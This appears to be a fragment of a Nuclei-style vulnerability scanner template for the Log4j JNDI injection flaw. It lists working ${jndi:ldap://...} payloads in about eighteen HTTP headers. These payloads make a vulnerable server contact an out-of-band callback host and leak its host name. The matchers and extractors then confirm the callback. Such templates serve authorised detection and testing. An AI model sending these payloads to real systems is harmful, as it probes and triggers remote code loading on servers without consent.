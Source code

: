 ```
        Accept: ${jndi:ldap://${hostName}.accept.{{interactsh-url}}}
        Accept-Encoding: ${jndi:ldap://${hostName}.acceptencoding.{{interactsh-url}}}
        Accept-Language: ${jndi:ldap://${hostName}.acceptlanguage.{{interactsh-url}}}
        Access-Control-Request-Headers: ${jndi:ldap://${hostName}.accesscontrolrequestheaders.{{interactsh-url}}}
        Access-Control-Request-Method: ${jndi:ldap://${hostName}.accesscontrolrequestmethod.{{interactsh-url}}}
        Authentication: Basic ${jndi:ldap://${hostName}.authenticationbasic.{{interactsh-url}}}
        Authentication: Bearer ${jndi:ldap://${hostName}.authenticationbearer.{{interactsh-url}}}
        Cookie: ${jndi:ldap://${hostName}.cookiename.{{interactsh-url}}}=${jndi:ldap://${hostName}.cookievalue.{{interactsh-url}}}
        Location: ${jndi:ldap://${hostName}.location.{{interactsh-url}}}
        Origin: ${jndi:ldap://${hostName}.origin.{{interactsh-url}}}
        Referer: ${jndi:ldap://${hostName}.referer.{{interactsh-url}}}
        Upgrade-Insecure-Requests: ${jndi:ldap://${hostName}.upgradeinsecurerequests.{{interactsh-url}}}
        User-Agent: ${jndi:ldap://${hostName}.useragent.{{interactsh-url}}}
        X-Api-Version: ${jndi:ldap://${hostName}.xapiversion.{{interactsh-url}}}
        X-CSRF-Token: ${jndi:ldap://${hostName}.xcsrftoken.{{interactsh-url}}}
        X-Druid-Comment: ${jndi:ldap://${hostName}.xdruidcomment.{{interactsh-url}}}
        X-Forwarded-For: ${jndi:ldap://${hostName}.xforwardedfor.{{interactsh-url}}}
        X-Origin: ${jndi:ldap://${hostName}.xorigin.{{interactsh-url}}}
        Content-Type: application/json
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol  # Confirms the DNS Interaction
        words:
          - "dns"

      - type: regex
        part: interactsh_request
        regex:
          - '([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'   # Print extracted ${hostName} in output

    extractors:
      - type: kval
        kval:
          - interactsh_ip # Print remote interaction IP in output

      - type: regex
        part: interactsh_request
        group: 2
        regex:
          - '([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'   # Print injection point in output

      - type: regex
        part: interactsh_request
        group: 1
        regex:
          - '([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'   # Print extracted ${hostName} in output
```
